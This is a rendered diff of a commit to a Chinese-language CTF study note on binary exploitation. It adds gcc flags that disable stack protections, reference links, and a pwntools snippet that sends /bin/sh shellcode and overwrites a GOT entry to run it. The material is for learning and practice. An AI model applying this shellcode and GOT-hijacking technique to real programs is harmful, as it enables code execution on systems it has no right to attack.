

Before and after one commit to wgf4242/text, a Markdown page: docs/ctf/2019-03-26-PWN.md, 3 parts joined by grey strips. Shown: that part at 83% size. Rendered like a GitHub page; pictures changed too: docs/ctf/imgs/pwn_ret2shellcode.jpg (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/docs/ctf/2019-03-26-PWN.md
+++ b/docs/ctf/2019-03-26-PWN.md
@@ -198,11 +198,17 @@ __基本输入输出FD__
 
 fd的类型为int，值为0、1、2,分别代表标准输入、标准输出、标准错误输出。
 
+
+[LINUX SYSTEM CALL TABLE FOR X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
+
 ### 编译与执行
 程序执行顺序 start => __libc_start_main(main函数是从这里被call的), 所以stack有lib_c_start_main+231的ret addr
-#### 关闭 canary 保护机制
+#### 关闭 canary等 保护机制
 
-    gcc test.c -fno-statckprotector -o test
+    gcc test.c -fno-statckprotector -o bof
+    gcc test.c -fno-statckprotector -no-pie -o bof
+    gcc test.c -fno-statckprotector -no-pie -z execstack -o ret2sc
+
 
 ```c
 # include <stdio.h>
@@ -387,6 +393,14 @@ vmap查看, 开启NX导致w,x不会同时开启。
 
 ![](imgs/pwn_ret2sc.jpg)
 
+![](imgs/pwn_ret2shellcode.jpg)
+
+可参见 LINUX SYSTEM CALL TABLE FOR X86 64
+
+exp见 [pwn_01_01ret2shellcode2](scripts/pwn_01_01ret2shellcode2.py)
+
+[在线转换](https://defuse.ca/online-x86-assembler.htm#disassembly)
+
 ##### 哪里可以写shellcode?
 
 * 选择含有rwx处
@@ -452,5 +471,16 @@ r = process('./bof2')
 
-puts_got = 0x601018
+r.recvuntil('?\n')
+context.arch = 'amd64'
+
+sc = asm(shellcraft.sh())
+
+r.send(sc)
+
+r.recvuntil('?\n')
+r.sendline(str(0x601018)) #
+
+r.recvuntil(':')
+r.send(p64(0x601080)) # 已被shellcode覆盖的原plt地址,
 
 ```
 ### fmt
````
Also changed, not shown: other parts of docs/ctf/2019-03-26-PWN.md (+14 -2 lines), docs/ctf/kali_linux.md (+15 -8 lines), docs/ctf/imgs/pwn_GOT_Hijacking1.jpg (added), docs/ctf/imgs/pwn_GOT_Hijacking2.jpg (added), docs/ctf/imgs/pwn_GOT_Hijacking3.jpg (added), 4 other files.
